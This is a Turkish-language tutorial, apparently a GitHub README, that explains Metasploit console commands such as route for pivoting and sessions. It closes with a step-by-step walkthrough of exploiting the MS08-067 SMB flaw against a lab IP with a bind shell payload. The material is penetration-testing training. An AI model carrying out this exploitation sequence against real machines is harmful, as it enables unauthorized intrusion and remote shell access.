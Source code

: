 **~> banner:** Random seçilen bir açılış ekranı. Alt kısmında tool'da bulunan exploit, payload sayısı vb. bilgiler verir.

**~> help:** Modülsüz haldeki kullanabileceğimiz temel komutları listeler.

**~> advanced:** Kullanılan modül hakkında daha fazla bilgi almamızı sağlayan komut.

**~> back:** Modüller arası geçişte geri dönmek için kullandığımız komut.

**~> connect:** Başka bir host ile msf konsolunu birbirine bağlar, diğer host'un aldığı sonuçları bizim konsolumuzda da bu sayede görebiliriz.

**~> info:** Basit yardım.

**~> irb:** Exploit'in kaynak kodunu açıp editleyebilmemizi sağlar.

**~> jobs:** Bazı exploit'lerin çalışması için bazı servisleri ayağa kaldırıyoruz. bu servislerin yönetimini jobs komutu ile yapıyoruz.

**~> load:** Plugin yüklememizi sağlayan komut.

**~> options:** framework içerisinde global değişken oluşturabilmemizi sağlayan komut.

**~> route:** Ele geçirilen makinenin arkasındaki makinelere ulaşmak için, ele geçirilen makineyi router gibi kullanmamızı sağlayan komut.(Pivoting)

**~> search:** Modülleri aramamızı sağlar.

**~> sessions:** Açılan shell'ler arası geçiş yapabilmemizi ve bu oturumları görebilmemizi sağlayan komut.

**- MS08_067 exploiti ile bir makineyi ele geçirme süreci:**

~> search ms08_067 (ms08_067'yi MSF içerisinde aratıyoruz)

~> use exploit/windows/smb/ms08_067_netapi (Belirttiğimiz exploit'i kullan diyoruz)

~~> show (Modülü gösterme komutu)

~~> show options (Modül ayarlarını gösterme komutu)

~~> set RHOST 172.16.193.149 (Hedefi belirtiyoruz)

~~> show options 

~~> show payloads (Kullanılabilir Payload'ları gösterme komutu)

~~> show targets (Exploit'in çalıştığı hedefleri gösterme komutu)

~~> set PAYLOAD windows/shell/bind_tcp (Payload'ımızı seçiyoruz, eğer bu işlemi yapmazsak MSF bizim yerimize en uygun Payload'ı seçecektir.)

~~> show options 

~~> set LPORT 1984 (Bağlantıyı dinleyeceğimiz port'u ayarlıyoruz)

~~> show options

~~> check (Hedefin bu exploite karşı zafiyeti olup olmadığını kontrol ediyoruz)

~~> exploit (Exploit işlemini başlatıyoruz)

\>> ctrl+z (Session'u arkaplana atar ve msf'ye geri döner)
